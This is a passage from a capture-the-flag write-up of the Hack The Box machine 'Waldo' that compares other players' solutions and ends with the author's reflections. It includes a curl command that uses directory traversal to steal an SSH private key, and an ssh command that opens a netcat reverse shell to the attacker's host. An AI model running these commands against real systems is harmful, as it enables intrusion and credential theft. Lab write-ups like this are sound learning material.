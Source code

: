 ```

curl -s -X POST http://10.10.10.87/fileRead.php --data "file=..././..././..././..././..././home/nobody/.ssh/.monitor" | cut -d "\"" -f 4 | sed 's/\\n/\n/g' | sed 's/\\//g' > nobody.key && chmod 600 nobody.key

```

He also uses the "bash -noprofile" argument for the ssh command...but ommits the `-t`. The result is that he loses the bash prompt, but recovers it with the python pty.spawn command.
L4MPJE too, spots the need to export a new $PATH much earlier than myself.


George O's writeup on [Medium.com](https://medium.com/ctf-writeups/waldo-write-up-htb-dfbaaaa91282) contains a great python script the author wrote to exploit the directory traversal and file disclosure vulnerabilities on the box...It's well worth checking out!
He also uses a nifty way of getting monitor's bash shell, by directing the ssh traffic through netcat...back to his kali box...

```

ssh monitor@127.0.0.1 -i .monitor nc 10.10.15.1 4444 -e /bin/bash

```

[Jai Minton](https://www.jaiminton.com/HTB/Waldo/#) has an interesting writeup. He uses a PHP script to reformat the private RSA key. He also escapes the rbash shell the intended way! 

<hr width="250" size="6">

On the whole Im pretty pleased with my effort; I've learned a few things. I'll recognize that I'm in a docker container faster next time, I'll know how to identify linux file capabilities, and that use of curl piping output through jq is going in my back pocket!
A very enjoyable box; big thanks to its makers for the experience!!!

:D







